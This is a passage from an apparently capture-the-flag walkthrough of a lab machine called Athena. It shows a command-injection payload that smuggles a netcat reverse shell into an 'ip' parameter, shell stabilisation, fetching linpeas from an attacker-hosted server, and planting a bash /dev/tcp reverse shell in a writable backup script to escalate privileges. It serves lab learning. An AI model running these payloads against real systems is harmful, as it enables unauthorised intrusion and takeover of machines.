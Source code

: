 - Payload

```bash
ip=127.0.0.1%0Anc+10.17.55.0+4242+-e+/bin/sh&submit=`
```

![image](/assets/athena_ss/revshell.png)
and we get a hit, lets stabilize the shell to get a fully interactive pty shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z to bg
stty raw -echo; fg
Press enter to get back on the shell
export TERM=xterm
```

## Initial foothold

### www-data

Looking at available users we get
![image](/assets/athena_ss/etc-passwd.png)
we see there are three users, now lets run linpeas.sh to look for any potential privesc vector

```bash
Attacker Machine:
python3 -m http.server 8001
Target Machine:
wget attacker_ip:8001/linpeas.sh
chmod +x linpeas.sh
./linpeash.sh
```

Running linpeas we find one interesting service running
![image](/assets/athena_ss/athenaservice.png)
Lets check the service
`cat /etc/systemd/system/athena_backup.service`

![image](/assets/athena_ss/service.png)`so its running backup service every 1 minute, lets check backup.sh`cat /usr/share/backup/backup.sh`
![image](/assets/athena_ss/backup.sh.png)
Checking the permission on the file we see its writable
![image](/assets/athena_ss/fileperms.png)
so we could potentially write a reverse shell and let it run

### www-data to athena

Editing the file with our revshell payload

```bash
bash -i >& /dev/tcp/10.17.55.0/9001 0>&1
```
